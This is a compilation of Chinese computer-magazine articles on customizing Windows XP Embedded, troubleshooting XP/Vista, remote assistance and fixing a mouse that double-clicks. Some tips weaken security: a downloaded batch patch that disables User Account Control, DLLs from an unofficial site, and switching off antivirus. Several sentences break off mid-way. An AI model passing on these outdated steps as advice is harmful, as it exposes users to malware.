下载完成之后会自动解压，其中包含了Disk1、Disk2、disk3、MUI等文件夹，双击Disk1文件中的Setup.exe，此时会打开图1所示的窗口，依次选择“Tools Setup”、“Database Engine Setup”、“Database Setup”等组件进行安装，安装序列号可以从Disk1目录中的productkey.txt文件中获取，安装完成后请重启系统。

双击disk3文件中的Setup.exe，我们会看到图2所示的窗口，仍然是依次安装“Database Engine Update”、“Tools Update”、“Database Update”。需要提醒的是，在安装“Database Update”之前，请进入服务窗口手工启动名为“SQLSERVERAGENT”的服务，否则将提示错误，最后双击langchssp2.exe安装简体中文语言包。





### 三、收集硬件信息

从资源管理器中进入“C:\Program Files\Windows Embedded\Utilities\”文件夹，双击运行TAP.exe，运行后会在当前目录中自动生成一个名为devices.pmq的文件。

从XPE Studio程序组中选择“Component Designer(组件设计器)”，运行后依次选择“File→Import”，选择刚才所生成的devices.pmq文件，然后单击“Start”按钮将其导入。导入结束之后，组件设计器的左侧窗格中会增加一个名为

### 四、手工定制Windows XP

完成上述工作之后，我们就可以从当前Windows XP系统中筛选出所需要的驱动程序，而将那些不需要的驱动程序剔除，当然你还需要筛选出所需要的应用程序和服务，具体步骤如下：

第1步：新建模板
从XPE Studio程序级别中运行“Target Designer”，新建一个模板，模板可以自由命名，例如test.slx。在配置浏览器的顶端，展开test.slx，选择“Settings”，再点击右侧的“Target Devices Settings”下的“Show”，我们可以在这里编辑即将要生成的Windows XP Embedded系统的BOOT.ini文件的内容。

第2步：添加必要的组件
接下来，我们可以单击左侧窗格中的Hardware、Software逐一添加必要的组件，也可以通过目标设计器的关联性检查功能自动添加组件，这可以在左侧窗格中找到后双击添加。需要指出的是，核心组件和常用组件是必须添加的，下面是最小系统必须添加的组件(见图3)，至于其它组件则可以根据实际情况决定是否添加：

- Name: User Interface Core
Description: Core shell component
Version: 5.1.2600.2180
Revision: 2890
Packages: Windows XP Embedded Client Component
Embedded Client (x86) Service Pack 2 R
Categories: Software : System : User Interface : She
Visibility: 1000
Size (Compressed/Uncompressed): 3

- Design Templates→Windows-based Terminal Professional: 宏组件，包含了一个最小化XPE所必需的基本组件。
- Software→System→Storage & File System→Infrastructure→File System→NTFS, 当然也可以选择FAT, 这主要取决于Windows XP系统分区的格式。
- Software→System→Storage & File System→Applications→NTFS Format, 格式化NTFS文件系统的GUI工具，与前面的文件系统相对应。
- Software→System→System Services→Base→NT Loader, 提供NTLDR。
- Software→System→International→Infrastructure→Chinese - Simplified Language Support, 提供中文支持。
- Software→System→International→Infrastructure→Language:Microsoft Chinese (Simplified) Chinese IME Core, 中文输入法组件。
- Software→System→Storage & File System→Infrastructure→File System→CDFS, 读取光驱设备。
- Software→System→Security→Infrastructure→Automatic logon, 自动登陆。
- Software→System→User Interface→Shells→Explorer shell, 桌面。
- Software→System→User Interface→Shells→Windows Shell→User Interface Core, 鼠标右键支持。

第3步：关联性检查
依次选择“Configuration→Check Dependencies”，或者按下F5功能键，这样做的目的是确保所有被添加的组件和关联组件都会被自动添加到配置中，如果目标设计器中不能自动添加组件，右击选择“Action”，会弹出一个对话框列出这些组件，然后你可以决定需要添加哪一个组件，当然添加之后建议还是需要再次执行关联性检查，直到任务栏上没有任何提示和警告为止。

第4步：创建镜像文件
按下F7功能键，此时会打开镜像测试窗口，在“Destination”栏中设置镜像保存目录，注意该目录不能和LOG文件在同一目录下，最后单击“Build”按钮开始创建系统镜像(见图4)。

```
Build type: Release
Destination: E:\Windows Embedded Images\nLog file: K:\test.log
Progress:
System components, registry and other files ........... 91504KB
CFDB: .03 secs, 1 reqs. LAB: .03 secs, 1 reqs, 0% hits, 200 entries
Files: 1282, RegEdits: 17359, Fixups: 9240
Build complete, elapsed time: 192.72 seconds, estimated run-time im
No errors and 1 warning
```

完成上述工作后，保存配置信息并退出目标设计器，将前面所创建的镜像文件目录中的所有对象复制到一个空白的分区根目录下，这里包括Documents and Settings、Program Files、WINDOWS、boot.ini、ntldr、NTDETECT.COM等对象，请确保该分区和前面配置属性中的设置相吻合，接下来你还需要用记事本打开C盘根目录下的BOOT.ini文件，添加如下语句：

```
multi(0)disk(0)partition(2)WINDOWS="Microsoft Windows XP Embedded" /FASTDETECT
```

保存文件后重启系统，从引导菜单中选择“Microsoft Windows XP Embedded”，很快就可以进入我们所定制的Windows XP系统，第一次启动时由于需要初始化驱动，因此启动速度可能有一些缓慢，再次启动时就相当迅速了。

## 万事不求人 解决问题三板斧

信息时代，每天都要处理很多事情，也会遇到非常多的难题。光靠自己努力学习，恐怕是不可能穷尽一切问题的。不过，现在有了互联网，我们完全可以自己动手，自行解决一些问题。事实上，一个人解决问题的速度和质量全面反映一个人的素质，在时间就是金钱的今天，快速地解决问题对于有着重大的意义。

◇文/小军

## 一、系统无法启动时

操作系统是我们和机器打交道的接口，是一种特殊的软件。因此，系统正常启动是我们正常工作和娱乐的根基。但是Windows系统并非如大家所愿，它非常脆弱，时常出现无法启动的状况。而重新安装系统则是一个灾难，不仅会破坏我们的设置，还会使我们丢失邮件和文档。在系统无法启动时，我们可以这样做：

### 1.使用恢复光盘恢复系统

(1) Windows XP
把Windows XP光盘插入光驱。然后按下Ctrl+Alt+Del键重新启动系统。在启动时，按下Del键进入BIOS设置程序，选择BIOS Features Setup菜单，然后按下回车键，进入参数设置选项界面，在这个界面中找到并选中选项Boot Sequence，然后按下Page Down键或者Page Up键，选择CDROM，C，A设置系统优先从CDROM盘启动，最后按下Esc键退回到根菜单中，并选择保存菜单或直接按下F10键保存设置。
一会儿，就可以看到Windows XP光盘在引导机器。再过一会儿，会出现一个界面。此时，按下R键，并在后来打开的窗口中，按下L键，实现快速修复。一会儿，系统会从Windows XP光盘中重新读取并覆盖机器中的系统文件，修复好系统。重新启动后即可使用。

(2) Windows Vista
虽然Windows Vista的稳定性得到了很大的提升，但谁也不能保证它时间长了不会坏。如果感觉不好，可以把Windows Vista光盘插入光驱。在启动时，按下Del键进入BIOS设置程序，设置从光盘启动。一会儿，就可以看到Windows Vista光盘在引导机器。再过一会儿，会出现一个界面。此时选择“修复计算机”，然后单击“启动修复”（如图1），之后顺着向导可以为不能启动已经安装Vista的添加引导记录，也可以为损坏的Vista进行修复操作。



### 2.注意BIOS中的设置

BIOS是Basic Input/output System的缩写，意思就是“基本输入/输出系统”。它在整个电脑“大厦”中起到连接操作系统与硬件的桥梁作用。主要负责在电脑开启时检测、初始化系统设备、装入操作系统并调度操作系统向硬件发出的指令，是一个高深莫测的系统模块。有时电脑启动不了也和它有关。

- (1) 关闭杀毒提示：有的BIOS有主引导扇区杀毒功能，事实上这个功能比较旧了，有时会引起无法启动系统或者无法安装操作系统的问题，因此最好将其关闭。
- (2) 超频：尽量不要超频使用，现在的电脑性能已经够好了。任何违背自然规律做事情，只有失败。
- (3) 内存：很多人喜欢搞双通道，事实上这些对于系统的性能提升不是太大。还有的是会把内存进行超频，也尽量不要这样做。
- (4) 注意外设：现在BIOS中有一个项，即Halt On，它可设置开机自检时异常情况的“挂起”条件。
  - ①No Errors 出现任何错误都不“挂起”。
  - ②All, But Keyboard 除键盘错误外，任何错误都将“挂起”。
  - ③All, But Diskette 除软驱错误外，任何错误都将“挂起”。
  - ④All, But Disk/Key 除软驱和键盘错误。
大家有可能设置得不好，必须重新设置。最常见的问题是键盘问题，不过，现在很多新主板已经认USB键盘了。

### 3.注意外设通电情况

现在的移动硬盘已经非常便宜了，很多人有时会将其连接在电脑上。不过，有的主板上连着移动硬盘，将有可能造成其无法启动，尤其是不自带电源的移动硬盘。因为，此时会有电流用于供应移动硬盘（可以看到移动硬盘上的提示灯亮），即使按下电源键，主板可能也得不到足够的电流来开机。此时将移动硬盘拔下即可保证电脑正常启动。
同理，其他的设备，如DC、DV都有可能影响机器的启动。

### 4.电源问题

电源要选择好一点的，尤其是机器上要带DVD刻录机或大硬盘、高级显卡时。有的人不给显卡接电源，或者接上后供电质量不好，造成机器无法启动也有可能。究其原因，是电源选择时质量没有过关。

### 5.注意硬盘问题

有时硬盘分区不当，也会引发问题。这时，可以用Windows Vista安装光盘启动机器，稍等片刻，就启动了Vista的安装程序。选择安装，然后可以看到相应窗口，在其中可以选中新安装的硬盘。然后单击“驱动器选项（高级）”，在其中我们可以对硬盘分区进行新建、删除和格式化等操作。选择“新建”后，我们来为硬盘划分第一个分区也就是C盘。单击新建按钮后会出现一个输入框，在这里输入你要划分给第一个分区的空间大小，要安装Vista，至少不要少于15GB，最好是30GB（因为还要安装诸如Office 2007之类的“大容量软件”）。完成后，退出安装程序即可。

事实上，可以等安装完系统后，再在系统中通过“磁盘管理”功能来分区，由于是图形化的界面，所以会更加安全。一般来说，硬盘的问题也可以解决。

## 二、系统变得缓慢时

Windows越用越慢是不争的事实，有这样的笑话，如果Windows的用户每次电脑死机时向盖茨索赔1美元，作为大富人的他将会在三年内破产！在系统变得缓慢或者蓝屏、经常死机时，我们应该这样做：

### 1.使用最后一次配置

Windows XP/Vista会在每次启动时自动备份注册表，如果我们发现系统不稳定甚至无法正常启动，可以重新启动机器，并在出现“正在启动Windows”信息提示时按F8键，选择“最后一次正确的配置”试一下，说不准可以解决问题。

### 2.新建用户

如果Windows开始变得不稳定，那可以试着打开“控制面板”，双击“用户和密码”项，在打开窗口中单击“添加”按钮，然后输入新用户名，再将其添加到administrators组中。然后用新用户来登录，一般情况下，机器会变得较为稳定，并可以使用一段时间。
此法适用于Windows XP和Vista。

### 3.SFC扫描恢复系统文件

按下Win+R，输入sfc /scannow，它就会自动扫描系统文件，如果遇到损坏的，或者发现不正确的版本，则会自动提示我们插入光盘，并修复系统。SFC其实是Windows自带的系统文件检查器，有了它后，当有几个小小的文件损坏而重新安装操作系统的事情就会少很多了。

### 4.用光盘修复系统

用安装盘恢复，前面已经说过。

### 5.试试系统还原

#### (1) Windows XP

如果你使用Windows XP，可以试一下系统还原：选择“开始→程序→附件→系统工具→系统还原”就可以打开窗口。选中“恢复我的计算机到一个较早的时间”单选按钮，再单击“下一步”按钮。从中选择一个还原点（如图2），单击“下一步”按钮顺着向导操作即可还原系统。一般情况下，我们在还原系统时先选择最近的还原点还原，如果机器还不稳定，那再顺次选择较近的还原点。



#### (2) Windows Vista

在Vista中可使用其内置的备份功能——Complete PC备份，你不仅可以备份个人文件，还可以备份硬盘上的所有内容，包括所有的操作系统文件和程序。一旦发生灾难性硬件故障，我们则可以在窗口中选择“Windows Complete PC还原”，只需一步简单的操作便可将整个PC恢复正常。

### 6.用系统准备工具

把Windows安装光盘插入到光驱中，并打开光盘SUPPORT\TOOLS文件夹，双击DEPLOY.CAB文件，把其中的所有文件解压到一文件夹下（如C:\Sysprep），双击其中的sysprep.exe文件，并按下“确定”按钮接受警告信息。并在打开窗口中选中“不重置激活的宽限期”、“使用最小化安装”和“检测非即插即用硬件”复选框。按下“重新封闭”按钮，机器会自动关闭。重新启动计算机后，Windows XP会让我们接受协议，并要求输入序列号，接下来再作一些必要设置就可以使用了。

## 三、网络应用无法进行时

现在是网络的时代，网络应用无法进行是不可思议的事情。这时的当务之急是能够保证上网的正常进行。

### 1.内置网卡没有打开

有些人用的是整合主板上的网卡，而有时却忘记了打开，这时可以进入BIOS，将其打开。

### 2.未打开设备

路由器或ADSL Modem未打开，这时请进行确认。

### 3.未安装驱动

没有驱动的硬件无异于一堆废铜烂铁，如果发现没有安装上驱动，请赶紧下载并安装最新的驱动。

### 4.执行好修复功能

如果“本地连接”的显示状态无缘无故地变成“受限制或无连接”，系统将无法上网，这时通过系统自身的修复功能往往可以解决问题。

#### (1) Windows XP

在Windows XP中打开“网络连接”文件夹，双击“本地连接”，再单击“支持”，然后单击“修复”按钮即可。

#### (2) Windows Vista

如果发现在Vista下上网有问题，可以右击“本地连接”，选择“诊断”（如图3）。此后，Vista会打开窗口选择下方的修复项。此时会弹出窗口来进行修复。一般来说，修复后将可以直接使用。



另外，我们也可以右击任务托盘处的网卡图标，选择“诊断和修复”，对网卡进行修复。

### 5.破解网络连接限制

有时发现下载东西有些问题，是因为网络连接受到了限制，可以自行破解。

#### (1) Windows XP

Windows XP SP2是目前用户最为流行的操作系统，但是默认情况下，它的半开连接数只有10。这样做的原意是为了防止冲击波和震荡波之类的蠕虫病毒。但是现在的互联网，P2P是大趋势。迅雷下载、迅雷看看等P2P工具和服务对于半开连接数有了更高的要求。因此，我们必须对其进行破解。否则我们的网卡将无法全速前进！
安装最新版本的迅雷5，选择“工具”→“XP系统优化工具”，并在打开窗口中设置相应的连接数，再单击“修改连接数”按钮，设置一个较大的值（如图4），再重新启动计算机即可让P2P工具多管齐下，一路狂飙。



#### (2) Windows Vista

在Windows XP SP2中的问题，Windows Vista中同样存在。我们可以通过第三方的软件来破解。从http://download.softpedia.com/dl/029858726e0e97438cd4de4ecfd32ccf/469cab1c/100072536/software/tweak/vistapatch.zip处下载此工具，然后将其中的文件解压到一临时文件夹下，然后根据自己平台的情况，双击Patch32.bat（32位的Vista平台）或Patch64.bat（64位Vista平台），然后一路按Y键确认。完成后，提示我们重新启动Windows Vista。利用此工具可以关闭掉用户账户控制，并可以破解TCP/IP半开连接数，其最高值为70000，足够我们下载使用了。

### 6.无法开启浏览器

这是一个非常麻烦的事情，因为浏览器是很多应用的入口。这时，可以让别人安装一个Maxthon或GreenBrowser或The World浏览器，安装后一般可以使用。如果想恢复IE，有两个办法。一是用Windows安装光盘来恢复系统，这样IE会被自动恢复。二是将当前升级到IE7，IE7现在已经可以直接下载并安装，无须WGA验证。

## 四、解决问题N步骤

有了流畅的系统和高效的网络，我们再有问题就不必害怕了。借助于系统的帮助、搜索引擎还有专业的论坛，我们可以排除掉几乎90%的故障，解决掉这些问题。

### 1.借助于系统的帮助

#### (1) Windows XP帮助和支持中心

Windows XP自带的“帮助和支持中心”组件往往是我们了解查看系统功能、侦测有关故障的最直接方法。要打开它，可以选择“开始”→“帮助和支持”，或者按下Win+F1键即可。如图5所示，我们可以在其中输入相应的问题进行搜索，也可以直接按目录进行浏览。

#### (2) Windows Vista帮助和支持中心

Windows Vista的帮助和支持中心功能更为强大，首次打开时，会询问我们是不是要联机，一般选择“是”，这样可以搜索到最新的信息。接下来会打开如图6所示的窗口，在其中同样可以进行问题的搜索，也可以按目录浏览。
一般来说，Windows中的一些问题，帮助和支持都可以给予很好的回答。而且，它们还支持更新最新的信息，所以大多数还是能够解决问题的。



### 2.Microsoft Office 中问题解决

一般的Windows程序都具有良好的帮助系统，当我们对某一功能不了解时可以随时按下F1键来打开帮助。同样出现问题时，也可以通过Office中的帮助功能来解决问题。充分挖掘其功能，就可以使它更好地为我们服务。





#### (1) 快速获取相关帮助主题

Microsoft Office的博大精深，绝非一朝一夕能够掌握。不过，在Office 2007中，如果遇到问题，可以通过上下文帮助来解决：当我们在打开相应操作时，可以看到窗口右上角有一个?号。单击之，可以打开与此窗口或设置项相关的帮助文档。而且，它是与微软的网站相联接的。可以保证数据的丰富性和最新性。

#### (2) 直接查找相关问题

Office 2007本身就有详尽的帮助文件，第一次打开时就会出现如图7所示的窗口，一般情况下，我们至少要选中第一项。之后我们按下F1键打开帮助系统，然后在输入框中输入相应的关键字查找即可找到相关问题的答案。



#### (3) 出现问题智能提醒

在Office 2007中，如果出现相应的问题，Office自身就会打开相应的窗口，并给出相应的解决方案，我们可以顺着向导即可找到相应的答案。

### 3.一般软件中解决问题

只要系统稳定，多数情况下我们的问题属于软件问题，因此学会常见软件问题的解决，对于我们的工作和生活来说十分重要。

#### (1) 去微软的网站来解决问题（knowledge base）

微软的知识库（knowledge base）是一个非常丰富的在线知识数据库基地，几乎所有的与微软相关的问题都可以在上面查找到。微软知识库当中有许多宝贵的学习资源，而且是在不断的更新中。大家只要登录http://support.microsoft.com，然后输入相应的关键字即可查找（如图8）。
微软知识库非常智能，会根据我们的关键字自动将相应的产品在左侧列出，我们可以单击之，从而更精准地获取我们想要的答案。同时，我们还可以在该网页的上方选择“搜索语言”下的更多选项，如中文知识库、英文知识库（可获取英文信息）、整个Microsoft.com或互联网，而且还可以选择相应的产品类别，包括微软的所有产品，如Office 2003等，进而获取更多相关信息（如图9）。



- ★ 单击“搜索产品”下拉列表框，从中选择“更多产品”还可以在窗口中显示出更多微软的产品，让我们选择，从而进入相应的产品中选择问题答案。
- ★ 我们常见的补丁文件，如WindowsXP-KB823980-x86-CHS.exe（Windows XP系统的冲击波漏洞补丁）中的KB就是微软知识库Knowledge Base的首字母缩写，823980是该补丁在微软知识库中相应的说明性文章的编号，通过登录到http://support.microsoft.com/KBid=823950，可以查看该补丁的技术文章。

#### (2) 收看微软技术课程

MSDN WebCast 是一系列网络实时互动在线讲座，通过网络将微软最新的产品技术知识传递给大家，时效性强，互动性好。大家可以登录http://www.microsoft.com/china/msdn/events/webcasts/shared/Webcast/MSDNWebCast.aspx获得最新课程。在其中可以收看相应的课程。但是微软的课程多如牛毛，我们一下子是不可能学得过来的。但我们可以将这些课程录制为MP3，然后放到MP3中播放，具体可以通过下面的办法来实现。

#### (3) 连接必要硬件

要建立调音台，需要麦克风和对录线，对录线可以到当地电子电脑市场购买，价格在七八元左右。如果需要较好的，价格可能在十元左右。
接下来，把麦克风插入声卡的MIC口，把对录线的一端插入声卡的Line In口，另一端插入收音机的Phone（耳机）插孔中。然后再把另一根对录线的一端接在声卡的Speaker或Line Out口，另一端接到音箱的Line In口中。

#### (4) 安装好必要驱动程序

启动你的Windows，并正确安装好声卡的驱动程序，使之能够正常发出声音。

#### (5) 选择录音源

选择“开始→程序→附件→娱乐→音量控制”，打开“音量控制”窗口，选择“选项→属性”命令，并在打开窗口中选中所有项目，接着在打开的“属性”窗口中选择“录音”，再在打开的窗口中单击“Stereo Mixer”（或“所有输出”或“立体声混音”项）下的“选择”前复选框。

#### (6) 安装Messer录音程序和MP3编码器

从http://www.gougou.com上搜索并下载Messer，然后用WinRAR或WinZip打开它。再双击其中的messer-v098-setup.exe，并采用“一路回车”法完成安装。
接着从http://www.gougou.com上搜索并下载lame，然后用WinRAR或WinZip打开它，然后把其中的所有文件解压到Messer的安装文件夹下，如C:\Program Files\Messer，即可完成MP3编码器的安装。

#### (7) 设置Messer

打开Messer，然后单击Configuration（配置）标签：Messer Enlargement factor X times larger than normal（放大因子）下拉列框，从中选择3/2（如图10），再单击窗口最右下方的放大图标放大窗口，最后单击界面左上方的钟表图标，禁用定时录制。



接着向上拖动窗口右边滚动条，在I.Sound properties for manual sessions项下，首先选择mp3 compression；然后通过下拉菜单，选择Stereo（立体声）、sample rate（采样率）选择48.00KHz；单击mp3按钮，在弹出菜单中选择LameEnc。然后从下滑菜单中选择编码比特率，数值越高，效果越好，当然文件体积也会越大，建议选择048Kbit/s。要注意的是，如果你愿意，也可以选择更好的编码比特率。这样音乐质量会高很多，但同时也会占用更多的硬盘空间。

#### (8) 开始录制

接下来，只要播放微软技术课程。然后单击Messer工具上的Recording monitor标签，然后单击MP3 Rec按钮。接着在打开的窗口中选择录制文件的保存文件夹和文件名，再单击“文件类型”下拉列表框，从中选择*.mp3即可。

#### (9) 结束录制

课程完成后，单击窗口中的Stop按钮，完成录制。之后，可将录制完成的MP3文件拷贝到MP3播放器中播放。

### 4.在百度知道上解决问题

百度知道（http://zhidao.baidu.com）是一个基于搜索的互动式知识问答分享平台，它和大家习惯使用的搜索服务有所不同，“百度知道”并非是直接查询那些已经存在于互联网上的内容，而是用户自己根据具体需求有针对性地提出问题，通过积分奖励机制发动其他用户，来创造该问题的答案。同时，这些问题的答案又会进一步作为搜索结果，提供给其他有类似疑问的用户，达到分享知识的效果。

凭借百度的人气，我们在上面输入关键字往往可以得到答案。同时，它最大的特点就是和搜索引擎的完美结合，让用户更快更好地找到解决问题的方法（如图11）。



### 5.在百度搜索上解决

搜索引擎时代，每个人的搜索非常重要。随着信息的增多，怎样更好地使用搜索引擎也成为我们必备素质之一。在百度上查找问题的解决方案时，也有相应的技巧。

#### (1) 从官方网站查找

首先从制造商的官方网站上找第一手产品资料，制造商通常会有详细而且权威的规格说明书。很多公司不但提供网页介绍，还把规格书做成PDF文件供人下载。利用前面小节谈到的企业网站查找办法找到目标网站，然后利用site语法，直接在该网站范围内查找需要的产品资料。
例：数码相机问题 site:sony.com.cn 则能够找到索尼网站上的数码相机问题的信息。

#### (2) 找到官方组织

如果不记得官方的网站，则需要从百度上查找。不过，在查找官方组织时一定要使用在网络用户中最为广泛称呼的名称作为关键词进行搜索，这样才能够搜索到更多的信息。
比如，想找到海尔公司，则有“海尔公司”、“海尔集团”、“海尔科技”、“Haier”等名称。而往往只有“海尔”是网络用户最为常用的，因此，用“海尔”为关键字往往可以得到更好的搜索结果。
同样的例子：

| 最合适关键字 | 其他关键字           |
| ------------ | -------------------- |
| Dell         | 戴尔 戴尔公司 戴尔集团 戴尔电脑 |
| 大众汽车     | 上海大众汽车 一汽大众汽车 大众汽车公司 |

#### (3) 使用高级搜索

在百度的首页上可以单击“高级搜索”链接，然后打开## 6.在Google上搜索

如果你的英文比较好，可以打开http://www.google.com，然后在下方单击“Google.com in English”直接进入Google英文版页面（如图12），输入英文关键字进行搜索。



Google搜索引擎的相关性做得非常好，这也使得“Google总是比你聪明一点点”真正成为事实。同样，我们也可以在Google主页上单击“Advanced Search”链接，然后在其中进行更高级的搜索，由于其原理主要与百度差不多，所以不再赘述（如图13）。



## 7.去天涯版块

天涯社区是国内特别有名的论坛，注册用户近2000万，拥有数百万高忠诚度、高质量用户群所产生的超强人气、人文体验和互动原创内容，而且有很好的分类，大家可以在上面查找答案。

## 8.去百度贴吧

百度贴吧是一种基于关键词的主题交流社区；它与搜索紧密结合，准确把握用户需求，通过用户输入的关键词，自动生成讨论区，使用户能立即参与交流，发布自己所拥有的其所感兴趣话题的信息和想法。大家可以在上面输入关键字来查找相应的帖子，而这些往往可以解决问题。只是在输入关键字时不能“太细”，应该“更有概括性”些。

## 9.专业的论坛

如果是电脑类的问题，可以去专业的IT门户的论坛，如pchome、yesky、it168、pconline等，其中的内容都不错。

## 10.DLL问题的解决

Windows系统平台上提供了一种完全不同的较有效的编程和运行环境，我们可以将独立的程序模块创建为较小的DLL (Dynamic Linkable Library) 文件，在运行时，只有当EXE程序确实要调用这些DLL模块的情况时，系统才会将它们装载到内存空间中。因此，DLL是很多应用程序运行的基础。

提示找不到Msvbvm60.dll文件或需要下载Runtime。这种情况多数发生在用VB制作的软件中，在发布时为减少体积，安装程序并没有内置VB6运行库文件，我们可以从http://www.gougou.com上以vbrun为关键字搜索，然后下载最新的VB6动态链接库，或从其他电脑中复制Msvbvm60.dll文件到系统文件夹（system或system32）。

> > **小提示**
> 
> - 有时在使用软件时还会遇到无法找到某个DLL文件的提示，这时你可以到http://www.dll-files.com/dllindex/index.shtml搜索并下载相应的DLL文件。
> - 有时候我们还会遇到Runtime的问题，所谓Runtime其完整名称为Runtime Library，即运行时程序库。它包含一个或多个预先编写的例行程序文件，用于完成一些特定的常用功能。编程软件使用了其中的功能，制作出的软件在运行时需要它的支持才行，其原理与DLL相似。事实上，很多Runtime中就包含有多个DLL文件。

## 11.安装程序常见问题的解决

在Windows下，使用软件前一般需要安装。安装软件本来是一件非常简单的事情，但有时却出现一些令用户困惑的问题，以致无法安装程序。如果遇到软件安装问题，又该怎么办呢？

### (1) 安装引擎失败

程序安装时提示“安装程序启动安装引擎失败：不支持此接口”或“The installshield Engine (ikernel.exe) could not be launched 不支持此接口”。这时，我们可以在Windows XP中按下Win+R组合键，输入：sfc /scannow，接着顺着向导检查并修复系统文件。同时尝试打开“控制面板→管理工具→服务”，双击“Windows Installer”服务，把“启动类型”设置为“手动”方式后单击“启动”按钮。ikernel.exe是Install Shield（很多安装程序都是用它制作的）安装引擎，如果该文件正在运行，后续安装程序将无法正常安装。这时可打开“任务管理器”，找到并右击ikernel.exe进程，选择“结束进程”即可。另外，Norton杀毒软件可能会把ikernel.exe文件误认为病毒，请暂时禁止病毒监控程序或防火墙。

### (2) 权限不够

安装程序时，出现“安装仅在管理模式下进行，安装终止。”的提示，并无法安装。此程序安装时需要管理员权限。如果不是以管理员权限登录Windows，双击EXE文件时，会弹出一个窗口，选中“以下面的用户身份运行程序”，输入管理员账号和密码，单击“确定”按钮即可运行（如图14）。如果在某些电脑上没此窗口，请注销当前用户，以管理员身份重新登录，再安装程序。



### (3) 安装介质出现问题

有时安装软件时，发现其进行到某进度时总是自动中断退出。这时，我们要在安装时仔细观察安装进度，发现当进行到50%时，如果进度条上显示读取的文件为“newp.jpg”，看来可能是因为安装介质（如光盘）部分损坏。这时，可尝试把安装光盘中的安装程序全部拷贝到硬盘某一目录中，发现包括“newp.jpg”在内的几个文件无法复制，记下这些文件的名称，并将其他文件复制过来，然后启动“画笔”或Photoshop生成一个newp.jpg，并放到相应文件夹下，再从硬盘中进行安装，一切顺利。

### (4) RAR或ZIP自解压文件问题

如果遇到“WinZip Self-Extractor header corrupt. Possible cause: bad disk or file transfer error”类似警告框，请右击此文件，选择“WinRAR→用WinRAR打开”，然后把其中所有文件解压到文件夹下，再双击其中的setup.exe或install.exe文件即可。

### (5) Windows Installer无法找到

越来越多的软件使用Windows Installer这种安装技术。Windows XP已经集成了最新版的Windows Installer，但有时在Windows XP里安装这一类软件时却会出现错误，一般的错误提示就是：Windows Installer Cannot Be Found。这时，我们可以按下Win+R，输入cmd，进入“命令行提示符”，输入：msiexec /regserver，回车。最好重启电脑，接下来再正常安装软件即可。

### (6) 临时文件阻止重装软件

在安装软件时，提示“出现I/O错误”，安装失败，多次重新安装都没有成功。这主要是因为，许多软件在安装时还会在硬盘临时文件夹中形成一些临时文件或安装信息，它们也可能导致软件无法正常安装。这些临时文件一般保存在C:\Temp或者C:\Windows\Temp目录。如果以上文件和信息存在，软件重装时会首先调用硬盘上的文件和信息进行安装，假如这些临时文件出现错误，安装就不能顺利完成，必须将其删除。

## 四、远程协助解决问题

尽管上面的方法几乎可以很好地解决掉90%的问题，但是还会有一些菜鸟们对此是一筹莫展。这时，我们往往需要使用远程协助功能来帮助他们解决问题。

### 1.用腾讯的QQ来远程协助解决

双方先安装最新版本的QQ并登录。发起方在QQ的聊天窗口中单击列表上的“应用”→“远程协助”。客户机的QQ会出现一个窗口，单击“接受”。之后可以看到相应的桌面，但是还要分配相应权限。这些比较简单，很多地方也都有过介绍，因此不再赘述。

### 2.用Windows XP的远程协作来远程协助解决

Windows XP自己就有远程控制功能，利用它就可以直接进行远程控制。
第一步：设置被控制机器
在要被控制机器上，右击桌面“我的电脑”图标，选择“属性”，单击“远程”标签。勾选“远程桌面”下的“允许用户远程连接到这台计算机”复选框。然后单击“选择远程用户”，再在打开的窗口中选择相应的用户（如图15）。
第二步：登录远程计算机
在控制机器上，选择“开始”→“所有程序”→“附件”→“通讯”→“远程桌面连接”，然后输入被控方计算机的名称或IP地址，再输入用户名和密码（即在演示机器中我们事先选择好的远程用户），单击“连接”即可登录远程计算机。此时将打开“远程桌面”窗口，操作自如。


### 3.用特定的程序来远程协助 如UltraVNC

通过Windows XP的远程桌面虽好，但是它最多只能够支持两个用户登录（还需要安装SP2，并作相应修改，而Windows 2003 Server则无此限制）。事实上，通过UltraVNC，我们不仅可以实现Windows平台之间的办公演示方案，还可以实现Mac与Mac之间、Mac与PC的遥控。更为重要的是，只要资源足够，连接多少个用户都无妨。在硬件性能如此高超的今天，连接多个用户也可以提升性价比。

### 4.控制Windows

第一步：设置被控端
先从http://search.cpatch.org/download/server/vnc/ultravnc1010.exe下载，并在安装时选择安装语言为“Chinese（Simplified）”，并同意协议。在弹出的选定组件对话框中，一定要选择“中文（简体）安装类型”，勾选需要安装的组件（建议全部勾选），即可完成安装。
安装完成后，双击任务栏VNC图标，会出现如图16所示“WinVNC: Current User Properties”（当前用户属性）对话框，在密码后面设定一组密码，作为远程控制的登录密码。



第二步：登录远程机器
在另一台机器上安装UltraVNC，完成后选择“开始→程序→UltraVNC→VNC查看器”，打开VNC查看器，在弹出的“连接”对话框的VNC服务器后面输入需要遥控的计算机名称或者IP地址，根据连接情况选择下面“自动”项，单击“连接”按钮即可开始连接。接着会显示连接的状态窗口，并会弹出一个VNC验证对话框，在其中输入演示机上设置的密码，单击“登录”按钮，就可以成功连接并可以远程遥控了。

## 帮鼠标“跳级”

### ——让鼠标别再双击了



随着光电鼠渐渐走入千家万户，很多朋友在使用光电鼠时常常会出现各种问题。较为常见的就是鼠标单击变双击了，一个用得久的光电鼠常常会出现单击鼠标左键会变双击的现象。当出现问题的光电鼠单击一个桌面程序图标时，鼠标就会自动双击打开。比如当你只是想单击一个应用程序的图标，你的鼠标却帮你自动双击打开了，这会使你非常的困扰。

◆文/TMG wlj

## 一、鼠标为何单击变双击

其实造成光电鼠标单击变双击的原因会有很多，按照软件、硬件可以分为以下几类：系统设置问题、鼠标驱动问题、病毒感染引起、鼠标按键微动开关损坏、鼠标触点毛刺导致。
如果你的鼠标出现了单击变双击的问题，其实你不必烦恼。下面就让作者手把手地教你修复这个鼠标问题吧。

## 二、如何修复

### 第一步：检查并修复由病毒或驱动引起的鼠标单击变双击的故障

当我们的鼠标出现异常后，很多人首先想到的便是鼠标坏了，不能再用了，需要换个新的了，其实不然，病毒和驱动这些小问题带来的鼠标异常的情况常常会被我们忽略。鼠标单击变双击问题便可能是因为这个原因。
我们首先应该把我们的杀毒软件升级至最新，然后重启系统，在开机自检时按F8选择进入安全模式进行全盘杀毒。如果未发现病毒，就应该重新安装鼠标的驱动了，打开你的鼠标生产厂家的官网，从上面下载所用鼠标对应的驱动，安装后重启系统。如果鼠标仍然在单击时自动双击，那么就该进入我们下一步的解决步骤了。

### 第二步：解决系统设置不当引起的鼠标单击变双击

在经过上一步确认了系统无病毒和鼠标驱动正常后，我们就可以着手检查是不是系统设定不当而引起的鼠标单击变双击问题了。
